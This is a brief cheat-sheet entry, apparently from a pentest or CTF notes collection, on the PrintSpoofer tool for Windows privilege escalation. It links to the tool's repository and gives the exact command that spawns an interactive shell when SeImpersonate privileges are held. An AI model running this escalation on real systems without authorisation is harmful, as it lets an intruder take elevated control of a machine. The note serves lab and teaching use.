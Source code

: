 ## PrintSpoofer
If you have SeImpersonate privileges just do it
[https://github.com/itm4n/PrintSpoofer.git](https://github.com/itm4n/PrintSpoofer.git)


You can run the binary to gain an interactive shell as such
`.\PrintSpoofer.exe -i -c cmd.exe`